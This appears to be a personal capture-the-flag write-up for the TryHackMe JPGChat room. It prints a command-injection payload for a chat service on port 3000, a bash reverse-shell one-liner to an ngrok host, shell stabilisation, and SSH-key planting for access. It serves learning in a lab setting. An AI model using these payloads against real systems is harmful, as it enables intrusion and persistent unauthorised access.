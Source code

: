 **JPGChat**

This is not a full writeup for this room, this is just my notes about it because I had multiple problems when tried to get the revshell

After doing the NMAP on the machine and found `ssh` open and a custom port of `3000` open, I tried to netcat to port `3000`, I've written `[REPORT]` and added my payload `am'; /bin/bash; #` why `/bin/bash` not revshell? that what I was struggling with, I have no idea why but I was not able to do any kind of connection to my tunnel (ngrok)

I've setup my ngrok using `ngrok tcp 5000` and open my netcat like this `nc -lnvp 5000` and sent my revshell payload like this `am;bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14411 0>&1;` and nope.. nothing appeard, this was 1 failure out of 20+ failures using many kind of revshell payloads, then I found this [writeup](https://www.aldeid.com/wiki/TryHackMe-JPGChat) which gave me the idea of spawning a local bash using just `/bin/bash` instead of my revshell payload

Then i stabiliezed my bash a little using `python3 -c "import pty; pty.spawn('/bin/bash')"` then added my ssh keys to get a proper shell using ssh as follows:

- Generated my ssh rsa keys using `ssh-keygen -t rsa` saved it on default path and put my passphrase
- Copy the output found in `~/.ssh/id_rsa.pub` and put it on the vuln machine using the following
    - ![c21fa25eb5d2ccd0153e5bc4310a5f2a.png](c21fa25eb5d2ccd0153e5bc4310a5f2a.png)
    - Due to unstable shell we have to use a tricky way to pipeline our input, once I pasted my rsa key git Enter then type `EOF` to stop the file inputing

- Now connect using ssh `ssh -vvv wes@XXXXX` the `-vvv` for verbosity to know what's going on under the hood
- Aaaaand connected ![912473317bff44200af01f781a500ee3.png](912473317bff44200af01f781a500ee3.png)


 Now let's do the **Privilege Escalation**

- Once again we can't connect to my netcat .…
- ![3e362d7500bee8bcb47e5546bcd516cd.png](3e362d7500bee8bcb47e5546bcd516cd.png)
- Sooo, we use do it on the machine's local 
- ![dd2f718c0a906d060793a2f2826eee7f.png](dd2f718c0a906d060793a2f2826eee7f.png "dd2f718c0a906d060793a2f2826eee7f.png")

~~Still got no idea why this happened, was it from me? from the machine? I have no idea yet.. it's not the first time I create revshells/RCE using this technique but this time no worky no worky :\~~

~~You can contact me using my social media/discord accounts on my Github account if you have any idea why this happened :)~~

# UPDATE
I've got it!! it was all because of THM VPN – I should've used THM VPN IP not my IP, I tried it today on THM Temple room and it worked!!

Discord: `AyhamAlali#0001`
